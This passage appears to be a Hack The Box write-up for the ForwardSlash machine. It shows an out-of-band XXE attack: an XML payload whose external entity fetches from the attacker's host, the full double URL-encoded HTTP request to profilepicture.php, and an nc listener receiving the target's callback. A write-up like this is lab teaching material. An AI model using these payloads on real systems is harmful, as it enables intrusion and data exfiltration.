 

    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://10.10.14.24/x"> %ext;
    ]>
    <r></r>



I started `nc` on 80, and sent the payload with Burp Repeater:



    POST /profilepicture.php HTTP/1.1
    Host: backup.forwardslash.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://backup.forwardslash.htb/profilepicture.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 583
    Connection: close
    Cookie: PHPSESSID=q0gqh5u3ak0hltppu9jq91iu0a
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache

    url=http://backup.forwardslash.htb/dev/index.php?xml=%253c%253f%2578%256d%256c%2520%2576%2565%2572%2573%2569%256f%256e%253d%2522%2531%252e%2530%2522%2520%253f%253e%250d%250a%253c%2521%2544%254f%2543%2554%2559%2550%2545%2520%2572%256f%256f%2574%2520%255b%250d%250a%253c%2521%2545%254e%2554%2549%2554%2559%2520%2525%2520%2565%2578%2574%2520%2553%2559%2553%2554%2545%254d%2520%2522%2568%2574%2574%2570%253a%252f%252f%2531%2530%252e%2531%2530%252e%2531%2534%252e%2533%2534%252f%2578%2522%253e%2520%2525%2565%2578%2574%253b%250d%250a%255d%253e%250d%250a%253c%2572%253e%253c%252f%2572%253e



I got a connection at `nc`:



    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.183.
    Ncat: Connection from 10.10.10.183:47328.
    GET /x HTTP/1.0
    Host: 10.10.14.24
    Connection: close



To make that payload work, I double url-encoded it. When it reached
`profilepicture.php`, it will decode the payload. If I only encoded
once, the resulting payload wouldn't be a valid url, with spaces and `?`
character. But in double encoded, that resulting payload is still
encoded.
